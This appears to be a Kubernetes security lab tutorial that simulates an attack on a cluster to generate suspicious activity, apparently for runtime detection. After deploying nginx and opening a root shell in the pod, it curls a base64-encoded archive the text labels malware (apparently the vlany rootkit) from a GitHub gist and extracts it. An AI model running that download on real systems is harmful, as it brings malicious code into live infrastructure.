 
Let's simulate an attack on our cluster by logging into it and running some nefarious commands.  In this example we will use `kubectl exec` to install some system updates, install a package, then download a `tar` file, explode it. This routine may be typical of a malware or user instigated attack.

First let's create a deployment.

```
$ kubectl create ns nginx
namespace/nginx created

$ kubectl apply -f nginx-deployment-foo.yaml -n nginx
deployment.apps/nginx-deployment created

$ kubectl get pods -n nginx
NAME                               READY   STATUS              RESTARTS   AGE
nginx-deployment-5d57c58f5-4zdj4   0/1     ContainerCreating   0          13s
```

Verify the Pod has STATUS 'Running' and READY '1/1' before continuing.

```
$ kubectl get pods -n nginx
NAME                               READY   STATUS    RESTARTS   AGE
nginx-deployment-5d57c58f5-4zdj4   1/1     Running   0          80s
```

Make a note the Pod name, as you will require that shortly.

Now that the deployment is running, let's simulate the attack.  

Run the following command to create a shell into the running Container, substituting the pod name as appropriate

```
$ kubectl exec -it nginx-deployment-5d57c58f5-4zdj4 -n nginx -- /bin/bash
root@node01:/#
```

You can execute the commands inside the container, or even download some malicious file.

```
$ apt-get update
$ apt-get install curl -y
$ mkdir mymalware
$ cd mymalware
$ curl https://gist.githubusercontent.com/mateobur/d888e36de12f8fe42a18f54ce4b1fc7c/raw/dd0c4cb23db7cc17a2086c5dee9338522fb8ae69/vlany | base64 -d > vlany-master.tar.gz
$ tar zxvf vlany-master.tar.gz
```

